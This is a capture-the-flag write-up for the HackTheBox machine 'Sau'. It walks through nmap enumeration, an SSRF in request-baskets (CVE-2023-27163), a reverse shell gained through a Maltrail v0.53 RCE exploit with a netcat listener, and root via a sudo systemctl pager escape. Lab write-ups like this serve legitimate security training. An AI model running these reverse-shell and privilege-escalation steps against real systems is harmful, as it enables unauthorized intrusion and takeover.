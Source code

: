 # Sau

# User Flag

## NMAP Enumeration

All Port Scan:

```bash
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
12394/tcp filtered unknown no-response
13091/tcp filtered unknown no-response
19721/tcp filtered unknown no-response
25327/tcp filtered unknown no-response
53819/tcp filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
64901/tcp filtered unknown no-response
```


All Open Port Scan:

```bash
sudo nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-open-ports-nmap-report 10.10.11.224

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
55555/tcp open  unknown syn-ack ttl 63
```



NMAP Service Scan:

```bash
nmap -sV -sC -Pn -v -oN nmap-report 10.10.11.224 -p 22

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
12394/tcp closed   unknown
13091/tcp closed   unknown
19721/tcp closed   unknown
25327/tcp closed   unknown
53819/tcp closed   unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 07 Aug 2024 18:04:36 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 07 Aug 2024 18:04:09 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 07 Aug 2024 18:04:09 GMT
|_    Content-Length: 0
64901/tcp closed   unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=8/7%Time=66B3B717%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html
SF:;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Wed,\x2007\x20Aug\x
SF:202024\x2018:04:09\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"
SF:/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2
SF:0200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Wed,\x2007\x20Aug\x
SF:202024\x2018:04:09\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReque
SF:st,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plai
SF:n;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reques
SF:t")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\
SF:n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x2
SF:0charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r
SF:(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Optio
SF:ns:\x20nosniff\r\nDate:\x20Wed,\x2007\x20Aug\x202024\x2018:04:36\x20GMT
SF:\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20n
SF:ame\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\
SF:$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Typ
SF:e:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x
SF:20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20c
SF:lose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration (Port 55555)

There is a web application hosted on port 55555. It allows a user to create a basket to collect and inspect HTTP requests. 

Notes:

* Website is powered by `request-baskets | Version: 1.2.1` and source code looks to be available on [github](https://github.com/darklynx/request-baskets).
* There is [CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) available for this version of `request baskets` software.
* The CVE is for SSRF vulnerability, which can allow us to access internal services hosted on ports that are not accessible to external users (i.e. filtered ports 80 and 8338).
* The vulnerability works due to us being able to setup a Forward URL that forwards our request to the server. We can also enable proxy response, which will then return any response back to the client. The "Insecure TLS" set to true will bypass certificate verification and "Expand Path" set to true makes the forwared url path expanded when the original http request contains a compound path. Sending a request with the configuration below returns the application hosted on port 80 and 8338. 

![SSRF](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Linux%20Machines/Sau/Images/SSRF.png)

* Found application Maltrail (v0.53) hosted on port 80.

![Maltrail](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Linux%20Machines/Sau/Images/Maltrail%20Application.png)

* Application has RCE vulnerability which can be exploited using script from [here](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main).

```bash
# exploit script
python3 exploit.py 10.10.14.47 443 http://10.10.11.224:55555/n5wtoms

# netcat listening
nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.11.224] 42082
$
```

Can now get the user flag:

```bash
$ ls -lar
ls -lar
total 876
-rw-r----- 1 root puma     33 Aug  7 16:46 user.txt
```

# Root flag

Checking sudo permissions returns the following:

```bash
puma@sau:/opt/maltrail$ sudo -l

Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This sudo privilege can be exploited to spawn a shell ([article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager)), see commands below:

```bash
# run the command with sudo.
sudo systemctl status example.service

# enter a command in the pager like less.
less

# spawn shell
!sh
```

Can then get the root flag:

```bash
# ls -lar
total 44
-rw-r-----  1 root root   33 Aug  7 16:46 root.txt
```

Check the `maltrail.conf` file and found default password for admin:

```bash
admin:9ab3cd9d67bf49d01f6a2e33d0bd9bc804ddbe6ce1ff5d219c42624851db5dbc:0:                        # changeme!
```

Hash decodes to `changeme!`.













